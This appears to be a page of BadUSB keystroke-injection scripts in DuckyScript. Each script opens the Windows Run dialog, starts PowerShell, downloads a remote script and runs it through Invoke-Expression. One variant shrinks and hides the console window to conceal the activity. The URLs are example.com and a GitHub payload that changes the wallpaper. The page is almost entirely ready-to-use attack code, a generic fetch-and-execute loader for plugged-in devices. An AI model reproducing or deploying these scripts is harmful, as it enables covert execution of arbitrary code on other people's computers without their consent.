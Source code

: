 Code

    LED 0 0 0
    DELAY 1000
    GUI r
    DELAY 100
    STRING powershell.exe
    ENTER
    DELAY 1000
    STRING $ScriptFromGithHub = Invoke-WebRequest https://example.com/powershellScript.ps1
    ENTER
    DELAY 500
    STRING Invoke-Expression $($ScriptFromGithHub.Content)
    ENTER
    STRING exit
    ENTER
    LED 0 0 255

Code

    LED 0 0 0
    DELAY 1000
    GUI r
    DELAY 100
    STRING powershell.exe
    ENTER
    DELAY 1000
    REM Once powershell is up and running, hide the console
    ALT SPACE
    STRING m
    LEFTARROW
    REPEAT 50 
    STRING [console]::WindowHeight=1 
    ENTER
    STRING [console]::WindowWidth=1 
    ENTER
    DELAY 1000
    STRING $ScriptFromGithHub = Invoke-WebRequest https://example.com/powershellScript.ps1
    ENTER
    DELAY 500
    STRING Invoke-Expression $($ScriptFromGithHub.Content)
    ENTER
    STRING exit
    ENTER
    LED 0 0 255


Example Change wallpaper

    LED 0 0 0
    DELAY 1000
    GUI r
    DELAY 100
    STRING powershell.exe
    ENTER
    DELAY 1000
    STRING $ScriptFromGithHub = Invoke-WebRequest https://raw.githubusercontent.com/offport/BadUSB/main/Windows/Payloads/ChangeWallpaper.ps1
    ENTER
    DELAY 500
    STRING Invoke-Expression $($ScriptFromGithHub.Content)
    ENTER
    STRING exit
    ENTER
    LED 0 0 255
